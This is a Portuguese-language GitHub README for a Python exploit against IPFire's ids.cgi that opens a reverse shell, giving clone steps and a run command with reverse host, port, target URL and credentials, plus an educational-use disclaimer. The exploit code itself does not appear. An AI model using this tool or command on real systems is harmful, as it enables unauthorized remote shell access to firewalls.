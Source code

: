# IPFire Reverse Shell Exploit

![Small Bypass](https://github.com/BrotherOfJhonny/IPFire_2.19/assets/28454566/77343b75-287b-461c-9b44-bb0fb2849215)



Este é um script em Python para explorar uma vulnerabilidade em instalações do IPFire que permite a execução de um shell reverso. Ele é destinado apenas para fins educacionais e de teste. Use com responsabilidade e apenas em ambientes onde você tem permissão.

## Requisitos

- Python 3.x
- Bibliotecas Python: `requests`

## Uso

Para usar o script, siga as instruções abaixo:

1. Clone o repositório:

   ```bash
   git clone [https://github.com/seu-usuario/ipfire-reverse-shell-exploit.git](https://github.com/BrotherOfJhonny/IPFire_2.19.git)

2. Acesse a pasta:
cd ipfire-reverse-shell-exploit

3. Execute seguindo as intruções:

  ```bash
python ipfireExpl3.py --revhost SEU_HOST --revport SUA_PORTA --url URL_VULNERAVEL --u SEU_USUARIO --p SUA_SENHA
 ```

Substitua SEU_HOST, SUA_PORTA, URL_VULNERAVEL,  ```exemplo: https://10.2.2.1:444/cgi-bin/ids.cgi ```, SEU_USUARIO e SUA_SENHA pelos valores apropriados.

## Aviso Legal
Este script é fornecido apenas para fins educacionais e de teste. Não é destinado a uso malicioso. Use-o apenas em sistemas onde você tem permissão para testar a vulnerabilidade. O autor não é responsável por qualquer uso indevido deste script.

## Contribuições
Contribuições são bem-vindas! Se você deseja melhorar ou estender este projeto, sinta-se à vontade para enviar um pull request.
